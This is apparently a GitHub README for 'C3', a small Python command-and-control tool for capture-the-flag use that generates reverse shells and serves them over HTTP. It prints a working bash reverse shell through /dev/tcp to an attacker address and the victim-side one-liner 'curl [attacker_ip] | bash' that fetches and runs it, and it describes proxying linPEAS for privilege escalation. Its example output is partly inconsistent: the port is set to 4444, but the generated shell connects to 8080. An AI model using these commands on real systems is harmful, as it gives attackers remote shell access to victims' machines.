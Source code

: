 # C3 - The CTF Command and Control
```
_________ ________
\_   ___ \_____  \
/    \  \/  _(__  <    ______
\     \____/       \  /_____/
 \______  /______  /
        \/       \/
___________.__             _______________________________
\__    ___/|  |__   ____   \_   ___ \__    ___/\_   _____/
  |    |   |  |  \_/ __ \  /    \  \/ |    |    |    __)
  |    |   |   Y  \  ___/  \     \____|    |    |     \
  |____|   |___|  /\___  >  \______  /|____|    \___  /
                \/     \/          \/               \/
                                                .___
  ____  ____   _____   _____ _____    ____    __| _/
_/ ___\/  _ \ /     \ /     \__  \  /    \  / __ |
\  \__(  <_> )  Y Y  \  Y Y  \/ __ \|   |  \/ /_/ |
 \___  >____/|__|_|  /__|_|  (____  /___|  /\____ |
     \/            \/      \/     \/     \/      \/
  ____                         __                .__
 /  _ \     ____  ____   _____/  |________  ____ |  |
 >  _ </\ _/ ___\/  _ \ /    \   __\_  __ \/  _ \|  |
/  <_\ \/ \  \__(  <_> )   |  \  |  |  | \(  <_> )  |__
\_____\ \  \___  >____/|___|  /__|  |__|   \____/|____/

   by Blaudoom
```

This is a VERY simple script that can be used to create your basic reverse-shell commands.
Using a simplified http-server lets us serve files at server root, making calling them more convenient.

Keep in mind. I am not a very fluent Python coder. I do most my work in Java, so any recommendations are welcome. 

Shells from: [PentestMonkey](https://github.com/pentestmonkey)


```
usage: sheller.py [-h] [-l SHELL] [-a LOCALADDR] [-p LOCALPORT] [-o OUTFILE]
                  [-s] [-i INTERFACE] [--httpport HTTPPORT]

A script to generate reverse shells on various languages and serve them on
http-server.

optional arguments:
  -h, --help           show this help message and exit
  -l SHELL             Language to identify the shell to be built. Use -s to
                       see available shells.
  -a LOCALADDR         Address to connect back to
  -p LOCALPORT         Port to connect back to
  -s HTTPPORT  Port to start HTTP server in, default 80
  ```
## Usage
```
Available commands:

reverse [method] - Creates a reverse shell and either serves it over http or prints it (Method either serve or print)
proxy [url/preset] - Downloads and serves a single webpage over http. Param 1 is an url or a preset name. 
exec [command] - Serves the given command as text on http-server
set [option] [value] - Sets the value for an option, overwriting the one given as a commandline param.
shells - Prints available shell-types
presets - Prints presets
options - Prints options
stop - Kill the http-server
exit - Exit the application
```


## Examples:
### Reverse on http-server
  ```
$ sudo python3 c3.py -s 80 -l bash -a 169.254.138.91

Options:

shell:bash
localAddr:169.254.138.91
localPort:4444
interface:None
httpPort:80


C3>reverse serve
Opening shellfile: bash
C3>Starting webserver on port 80

C3>127.0.0.1 - - [12/Aug/2021 14:02:07] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [12/Aug/2021 14:02:07] "GET /favicon.ico HTTP/1.1" 200 -
```

produces:

```
bash -i >& /dev/tcp/169.254.138.91/8080 0>&1
```

and serves it on http-server at all interfaces on port 80 at / http://localhost
  
on victim machine:
```
curl [attacker_ip] | bash
```

should run the reverse shell generated, if bash is present and http is not blocked.

### Proxy a preset script

```
C3>proxy linpeas
Proxying url: https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/linpeas.sh
```
serves the linpeas shellscript-file at server root